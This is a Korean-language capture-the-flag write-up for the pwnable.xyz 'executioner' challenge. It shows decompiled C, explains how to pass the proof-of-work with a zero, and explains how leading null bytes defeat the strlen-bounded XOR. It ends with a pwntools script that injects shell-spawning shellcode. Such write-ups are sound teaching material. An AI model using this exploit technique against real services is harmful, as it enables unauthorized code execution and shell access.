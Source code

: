 ```yaml
---
title: "[pwnable.xyz]executioner"
date: 2020-1-26
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


solve_pow()함수 통과하면 inpt에 입력할 수 있다. 근데 입력한 값을 랜덤값과 xor해준다. 이후 v4는 메모리 매핑해주고 우리가 xor한 값을 참조해 영역을 실행권한도 존재해서 실행할 수 있다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  int i; // [rsp+0h] [rbp-20h]
  int fd; // [rsp+4h] [rbp-1Ch]

  setup();
  solve_pow();
  puts("Shellcode executioner");
  fd = open("/dev/urandom", 0);
  if ( fd != -1 )
  {
    read(fd, key, 127uLL);
    close(fd);
    printf("Input: ", key);
    read(0, inpt, 127uLL);
    for ( i = 0; i < strlen(inpt); ++i )
      inpt[i] ^= key[i];
    v4 = mmap(0LL, 0x1000uLL, 7, 34, 0, 0LL);
    *v4 = *inpt;
    v4[1] = qword_202288;
    v4[2] = qword_202290;
    v4[3] = qword_202298;
    v4[4] = qword_2022A0;
    v4[5] = qword_2022A8;
    v4[6] = qword_2022B0;
    v4[7] = qword_2022B8;
    v4[8] = qword_2022C0;
    v4[9] = qword_2022C8;
    v4[10] = qword_2022D0;
    v4[11] = qword_2022D8;
    v4[12] = qword_2022E0;
    v4[13] = qword_2022E8;
    v4[14] = qword_2022F0;
    v4[15] = qword_2022F8;
    JUMPOUT(__CS__, v4);
  }
  puts("error");
  return 1;
}
```

우선 이 `solve_pow()` 함수를 통과해야한다. 여기서도 랜덤값을 가져와서 두개 입력해서 더한 값이 랜덤값과 같아야한다. 근데 문제는 sleep() 해주는데 인자가 두개 입력한 걸 곱한 값이다. 근데 둘중 하나 0으로 하면 그냥 sleep(0) 되서 통과할 수 있다.  

```c
unsigned __int64 solve_pow()
{
  unsigned int buf; // [rsp+8h] [rbp-18h]
  int v2; // [rsp+Ch] [rbp-14h]
  int v3; // [rsp+10h] [rbp-10h]
  int fd; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  buf = 0;
  read(fd, &buf, 4uLL);
  close(fd);
  v2 = 0;
  v3 = 0;
  printf("POW: x + y == 0x%x\n", buf);
  printf("> ");
  if ( _isoc99_scanf("%d %d", &v2, &v3) != 2 )
  {
    puts("scanf error");
    exit(1);
  }
  getchar();
  if ( v3 + v2 != buf )
  {
    puts("POW failed");
    exit(1);
  }
  puts("Loading challenge... ");
  sleep(v2 * v3);
  return __readfsqword(0x28u) ^ v5;
}
```

우선 위에서 말한대로 `solve_pow` 함수 통과하면 이후에 key와 xor하는데 strlen(inpt)을 해준다. 여기서 트릭이 널바이트 넣으면 거기까지밖에 문자로 인식 안한다는 것이다. 그래서 널바이트를 삽입하면 뒤에는 xor안할 수 있다. 이후 쉘코드 넣으면 쉘을 띄울 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30025)
#p = process('./challenge')
win = e.symbols['win']

## solve pow
p.recvuntil('POW: x + y ==')
buf = int(p.recvline().strip(),16)
p.sendlineafter('> ','0 ' + str(buf))

payload = '\x00'*2
payload += asm(shellcraft.amd64.sh())
p.sendafter(':',payload)

p.interactive()
```

